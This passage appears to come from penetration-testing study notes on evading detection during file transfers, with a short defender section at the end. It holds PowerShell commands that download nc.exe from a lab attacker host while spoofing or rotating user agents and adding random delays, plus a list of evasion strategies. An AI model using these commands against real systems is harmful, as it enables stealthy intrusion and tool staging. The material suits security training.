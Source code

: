 **Benefits of LOLBins:**
- May be permitted by application whitelisting
- Often excluded from alerting systems
- Appear as legitimate system processes
- Difficult to detect without proper monitoring

**Resources:**
- **LOLBAS Project:** Windows Living Off The Land Binaries
- **GTFOBins Project:** Linux equivalent (~40 binaries for file transfers)

### Additional Evasion Techniques

**Custom User Agent Strings:**
```powershell
$CustomAgent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36"
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $CustomAgent -OutFile "C:\Users\Public\nc.exe"
```

**Randomized User Agents:**
```powershell
$agents = @(
    [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome,
    [Microsoft.PowerShell.Commands.PSUserAgent]::Firefox,
    [Microsoft.PowerShell.Commands.PSUserAgent]::Safari
)
$randomAgent = $agents | Get-Random
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $randomAgent -OutFile "C:\Users\Public\nc.exe"
```

**Timing Evasion:**
```powershell
# Add delays to avoid pattern detection
Start-Sleep -Seconds (Get-Random -Minimum 1 -Maximum 5)
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

### Common Evasion Strategies

1. **User Agent Rotation:** Rotate between different legitimate user agents
2. **Timing Variation:** Add random delays between requests
3. **Request Headers:** Modify additional headers to appear legitimate
4. **Alternative Binaries:** Use LOLBins when standard tools are blocked
5. **Protocol Switching:** Switch between HTTP/HTTPS/FTP as needed
6. **Fragmentation:** Split large files into smaller chunks
7. **Encoding:** Use base64 or other encoding methods

### Detection Countermeasures

**For Defenders:**
- Monitor for unusual user agent patterns
- Implement behavioral analysis beyond user agent strings
- Monitor process creation and command line arguments
- Implement application whitelisting properly
- Log and monitor all network connections
- Use machine learning for anomaly detection
